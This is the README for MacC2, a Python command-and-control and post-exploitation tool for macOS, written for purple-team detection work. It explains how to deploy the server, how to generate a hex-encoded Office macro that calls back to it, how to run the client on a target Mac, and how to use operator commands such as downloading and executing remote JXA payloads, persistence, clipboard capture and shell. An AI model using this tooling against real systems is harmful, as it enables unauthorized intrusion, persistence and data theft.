 # MacC2
MacC2 is a macOS post exploitation tool written in python that uses Objective C calls or python libraries as opposed to command line executions. The client is written in python2, which though deprecated is still being shipped with base Big Sur installs. It is possible down the road that Apple will remove python2 (or python altogether) from base macOS installs but as of Nov 2020 this is not the case. **I wrote this tool to aid purple team exercises aimed at building detections for python-based post exploitation frameworks on macOS**. Apple plans to eventually remove scripting runtimes from base macOS installs, but it appears that python is still included by default on base installs of Big Sur. 

You can set up the server locally or you can use the docker setup I have included in this repo. Instructions below:

-----
## Instructions for Running Using Docker: ##

***If you do not already have docker set up:***
1. `chmod +x install_docker_linux.sh`
2. `sudo ./install_docker_linux.sh`

***Next:***
1. `chmod +x setup.sh`
2. `sudo ./setup.sh` **(this will create an untrusted ssl cert and key, generate a macro file for the server and port you specify (will drop the macro in macro.txt locally), build macc2-docker, and run the MacC2 server inside of macc2-container in interactive mode)**
3. when prompted, enter the IP/hostname of the MacC2 server
![Image](pic30.png)
4. when prompted, enter the port that the MacC2 server will listen on
![Image](pic31.png)
5. A hex encoded macro payload will be dropped locally in a file named macro.txt that is configured to connect to your MacC2 server on the hostname/IP and port you specified.
![Image](pic32.png)
6. Docker will install the aiohttp python3 dependency, build macc2-docker, and will run the MacC2 Server in a container named macc2-container. Once finished the MacC2 server will listen on the specified port:
![Image](pic33.png)
7. You can run *docker ps* and validate that the MacC2 server is running (you will see a container named macc2-container listed there)

**Note: Since I am using a static container name (macc2-container), if you run this setup more than once on the same server, you will need to delete the macc2-container name after each use or else you will get an error "The container name "/macc2-container" is already in use by container". You can run the command below to delete the macc2-container after each run:**

> docker rm macc2-container

You can then either copy the MacC2_client.py file over to the client and execute for a callback or you can import the macro.txt macro into an Office document and "Enable Macros" when opening for a callback on the client. 

------
## Running Locally (Without Using Docker) ##
If you opt to not use docker, you can set up the server locally using the steps below:

Since the MacC2 server uses the aiohttp library for communications, you will need to install aiohttp first:

`pip install aiohttp` **(if you encounter an error ensure that pip is pointing to python3, since aiohttp is a python3 library)**: 

`python3 -m pip install --upgrade --force pip`

**_On C2 Server:_**
1. Set up ssl (note: use a key size of at least 2048)

If you do not have your own cert, you can use the following to generate a self signed cert:

- 1: `openssl req -new -newkey rsa:2048 -nodes -out ca.csr -keyout ca.key`

- 2: `openssl x509 -trustout -signkey ca.key -days 365 -req -in ca.csr -out ca.pem`

**note: the server script is hard-coded to use ca.pem and ca.key, so keep these names the same for now, or change the code appropriately**

2. Use macro_generator.py to create the MacC2 scripts with the server's IP/domain and port. macro_generator.py also builds a macro (macro.txt) that uses hex encoding to run MacC2. You can copy and paste the contents of macro.text into an MS Office document:

Usage: 

`python3 macro_generatory.py -s [C2 Server IP/domain] -p [C2 Server Port]`

-Example:

![Image](pic3.png)

3. Start the generated MacC2_server.py script to listen for a connection:

![Image](pic4.png)


**_On Client Side (the target mac host):_**
1. If you desire to not be limited by the mac sandbox and want more functionality, you may opt to copy the MacC2_client.py script to the client (assuming you have access).

2. On the client, run the MacC2_client.py script: 
`python MacC2_client.py`

![Image](pic5.png)

3. On the server, you will see an inbound connection. Example below:

![Image](pic6.png)

----------

## Using MacC2 ##

After you receive a connection, you can use the "help" command on the server to get a list of built-in commands available. You can enter one of these commands. After entering a command and pressing Enter, the command is queued up (allows you to enter multiple commands to be executed by the client). Once you type "done" and hit Enter, all of the queued commands will be sent to the client for execution.

![Image](pic7.png)

Each command is pretty straightforward. The command options that are not OPSEC safe (i.e., command line executions or cause pop ups) are also flagged in red from the help menu.

Functions of Note:

- You can generate a Mythic C2 JXA .js payload, download it, and host it on a remote server. Then you can provide the url to the hosted file to MacC2 using the **runjxa** command to have MacC2 download and execute the Mythic .JXA payload:

`>>> runjxa <url_to_JXA_.js_payload>`

**Note: If you gain access using the MS Office macro, then the persistence method will not work due to sandboxing. The files will still be dropped and the login item will still be inserted but upon reboot the quarantine attribute prevents the persistence from executing**

----------

## Additional Info ##

The MacC2 server uses aiohttp to easily allow for asynchronous web comms. To ensure that only MacC2 agents can access the server, the server includes the following:

- A specific user agent string check (if a request fails this check it receives a 404 Not Found)

- A specific token (if a request failes this check it receives a 404 Not Found)

The operator flow after setting everything up and getting a callback is:

- view help menu for command options

- enter command name and press enter for each command you want to run

- enter "done" and press enter to have the queued commands sent to the client for execution

- **NOTE: The default sleep is 10 seconds. The operator can change that by using the sleep [numberofseconds] command.**

- NOTE: The MacC2 server currently does not have a way to conveniently switch between sessions when multiple clients connect. Instead the server auto switches between sessions after each command executed. So the operator will need to pay attention to the IP in the connection to know which session is being interacted with.


----------

## Macro Limitations ##

MacC2 does NOT include any sandbox escapes and therefore all functions do not work when access is gained via the Office macro. Functions that DO work from the sandbox include:

- runjxa 

- systeminfo

- persist: MacC2 can drop files to disk from a sandboxed macro payload. However, upon reboot the persistence will not execute due to the quarantine attribue on the dropped files.

- addresses

- prompt

- clipboard

- shell (not OPSEC safe)

- spawn (not OPSEC safe)

- cd and listdir (sandbox prevents access for most directories but you can see the root '/' directory and potentially others as well)

----------

**_DISCLAIMER_**

This is for academic purposes and should not be used maliciously or without the appropriate authorizations and approvals.

